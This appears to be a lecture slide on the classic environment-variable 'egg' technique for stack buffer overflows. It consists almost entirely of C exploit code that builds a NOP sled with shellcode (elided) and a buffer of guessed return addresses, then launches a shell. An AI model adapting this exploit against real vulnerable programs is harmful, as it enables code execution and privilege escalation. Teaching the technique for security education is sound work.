

# Creating the “Egg” in the Environment
    #define OFFSET 0
/* Size of the overlowing buffer */
#define BSIZE 612 /* > 512 */
/* Size of the egg */
#define EGGSIZE 2048
/* No operation instruction */
#define NOP 0x90
char shellcode[] = "\xeb ... /bin/sh";
/* Returns the stack pointer */
unsigned long get_sp(void)
{ __asm__("movl %esp,%eax");
}
int main(int argc, char *argv[]) {
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int i, offset=OFFSET;
  if (argv[1] != NULL)
		offset = atoi(argv[1]);
  /* Creates the attack buffer */
  buff = malloc(BSIZE);
  /* Creates the egg */
  egg = malloc(EGGSIZE);
/* Gets the stack pointer and subtract the offset.
This is the address that will overwrite the legitimate return address */
  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
 ptr = buff;
  addr_ptr = (long *) ptr;
 for (i = 0; i < BSIZE; i+=4)
    *(addr_ptr++) = addr;
 /* Now it fills in the egg */
 ptr = egg;
 for (i = 0; i < EGGSIZE -	strlen(shellcode) -1; i++)
    *(ptr++) = NOP;
 for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];
     buff[BSIZE - 1] = '\0';
  egg[EGGSIZE -1] = '\0';
  memcpy(egg, "EGG=",4);
  putenv(egg);
  memcpy(buff, "RET=",4);
  putenv(buff);
  system("/bin/bash");
}